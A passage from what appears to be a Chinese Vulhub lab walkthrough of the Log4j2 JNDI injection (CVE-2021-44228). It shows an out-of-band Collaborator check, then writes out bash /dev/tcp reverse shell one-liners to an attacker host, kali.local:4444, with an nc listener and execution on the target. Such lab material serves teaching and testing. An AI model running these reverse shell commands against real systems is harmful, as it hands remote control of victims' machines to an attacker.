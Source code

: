 > 看到响应包反馈为失败，但是可以得到结果

在 Collaborator 中查看轮询结果

![在 Collaborator 中查看轮询结果](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%9C%A8%20Collaborator%20%E4%B8%AD%E6%9F%A5%E7%9C%8B%E8%BD%AE%E8%AF%A2%E7%BB%93%E6%9E%9C.png)

> 可以看到目标 java 的版本为 1.8.0

**渗透测试**

**制作 linux 反弹 shell 脚本**

>bash -i > /dev/tcp/kali.local/4444 2>&1 0>&1

>bash -i >& /dev/tcp/kali.local/4444 0>&1

| 操作                                | 描述                                                         |
| ----------------------------------- | ------------------------------------------------------------ |
| bash -i                             | 创建一个交互式的 bash shell                                  |
| /dev/tcp/kali.local/4444            | 连接 kali.local:4444 端口<br /> 是 <br />                    |
| dev                                 | 设备的英文缩写，主要存放与设备（包括外设）有关的文件         |
| /dev/tcp/                           | 是 linux 中的一个特殊设备，打开这个文件就相当于发出了一个 socket 调用，建立一个 socket 连接，读写这个文件就相当于在这个 socket 连接中传输数据 |
| /dev/tcp/${HOST}/${PORT}            | 位于 /dev 这个设备文件夹下，这个文件并不存在，并且不是一个设备文件。<br />这只是 bash 实现的用来实现网络请求的一个接口，如同编写的一个命令行程序，按照指定的格式输入 host port 参数，就能发起一个 socket 连接。 |
| >&                                  | 将标准输出和错误输出重定向到 /dev/tcp/kali.local/4444        |
| bash -i >& /dev/tcp/kali.local/4444 | bash -i > /dev/tcp/kali.local/4444 2>&1 的缩写               |
| 0>&1                                | 表示这里意思是将 0[标准输入]重定向到了 1[标准输出]指向的位置，标准输出 1 指向就是 /dev/tcp/kali.local/4444。<br/>这两组重定向，将输入，输出，报错信息都输入到<br/>/dev/tcp/kali.local/4444 这里了，就相当于把整个 shell 会话，都重定向到 tcp 连接中了。 |

在 nc 上创建侦听 4444 端口，通过反弹 shell 的脚本建立会话

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 4444
```

| 操作 | 描述                                                         |
| ---- | ------------------------------------------------------------ |
| -l   | 用于指定 nc 将处于侦听模式。指定该参数，则意味着 nc 被当作 server，侦听并接受连接，而非向其它地址发起连接 |
| -p   | 指定监听的端口号                                             |
| -v   | 显示详细的交互信息                                           |
| -n   | 直接显示 IP 地址，不解析成 dns 域名                          |

在目标上执行反弹 shell 脚本

> 前提是拿到目标一定的权限（利用蚁剑，冰蝎，哥斯拉）

```
[root@centos ~]# bash -i >& /dev/tcp/kali.local/4444 0>&1
```

![在目标上执行反弹 shell 脚本](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%8A%E6%89%A7%E8%A1%8C%E5%8F%8D%E5%BC%B9%20shell%20%E8%84%9A%E6%9C%AC.png)
